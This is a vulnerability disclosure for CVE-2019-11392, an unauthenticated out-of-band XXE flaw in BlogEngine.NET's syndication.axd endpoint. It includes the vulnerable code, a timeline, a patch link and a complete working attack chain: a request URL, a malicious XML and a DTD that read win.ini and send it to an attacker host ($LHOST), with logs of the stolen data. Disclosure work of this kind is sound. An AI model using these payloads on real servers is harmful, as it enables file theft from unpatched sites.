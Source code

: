 An Out-of-band XML External Entity attack, CVE-2019-11392, exists on BlogEngine.NET versions 3.3.7 and earlier through the `/syndication.axd` endpoint.  This issue can be exploited to reveal the contents of files on the host. Authentication is not required.

## Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases>

## Timeline

* Identified: 21 Apr 2019
* Initial Developer Contact: 22 Apr 2019
* Issue Disclosed: 18 June 2019

## Description

The vulnerable code can be found here:

~~~{command="SyndicationHandler.cs"}
if (!string.IsNullOrEmpty(context.Request.QueryString["apml"]))
{
	// Finds matches to  an APML file in both posts and pages
	try
	{
		using (var client = new WebClient())
		{
			client.Credentials = CredentialCache.DefaultNetworkCredentials;
			client.Encoding = Encoding.Default;
			using (var stream = client.OpenRead(context.Request.QueryString["apml"]))
			{
				var doc = new XmlDocument();
				if (stream != null)
				{
					doc.Load(stream);
				}
~~~

The **apml** parameter parses an XML located at the path provided by the user.  The path can be on a remote host.

An unauthenticated user can submit a malicious request specifying an external XML such as:

~~~
http://$RHOST/blog/syndication.axd?apml=http://$LHOST/oob.xml
~~~

~~~{.xml}
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "https://$LHOST/exfil.dtd">
<foo>&e1;</foo>
~~~

The malicious XML instructs the parser to request a DTD (document type definition) from an external host:

~~~
$RHOST - - [01/Apr/2019:16:34:40 -0600] "GET /exfil.dtd HTTP/1.1" 200 326 "-" "-"
~~~

<pagebreak></pagebreak>

The external DTD is then parsed and instructs the application to read a local file:

~~~{.xml}
<!ENTITY % p1 SYSTEM "file:///C:/WINDOWS/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://$LHOST/EX?%p1;'>">
%p2;
~~~

The contents of the local file, `C:/WINDOWS/win.ini` in the example, are then sent in a subsequent request to the attacker:

~~~
$RHOST - - [01/Apr/2019:16:34:40 -0600] "GET /EX?;%20for%2016-bit%20app%20support%0D%0A[fonts]%0D%0A[extensions]%0D%0A[mci%20extensions]%0D%0A[files]%0D%0A[Mail]%0D%0AMAPI=1%0D%0A[MCI%20Extensions.BAK]%0D%0A3g2=MPEGVideo%0D%0A3gp=MPEGVideo%0D%0A3gp2=MPEGVideo%0D%0A3gpp=MPEGVideo%0D%0Aaac=MPEGVideo%0D%0Aadt=MPEGVideo%0D%0Aadts=MPEGVideo%0D%0Am2t=MPEGVideo%0D%0Am2ts=MPEGVideo%0D%0Am2v=MPEGVideo%0D%0Am4a=MPEGVideo%0D%0Am4v=MPEGVideo%0D%0Amod=MPEGVideo%0D%0Amov=MPEGVideo%0D%0Amp4=MPEGVideo%0D%0Amp4v=MPEGVideo%0D%0Amts=MPEGVideo%0D%0Ats=MPEGVideo%0D%0Atts=MPEGVideo HTTP/1.1" 404 438 "-" "-"
~~~

## [Exploit](exploit.py)

Requests the contents of specified files (or `C:/Windows/win.ini` by default). It then writes the files to the current folder:

~~~
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
~~~
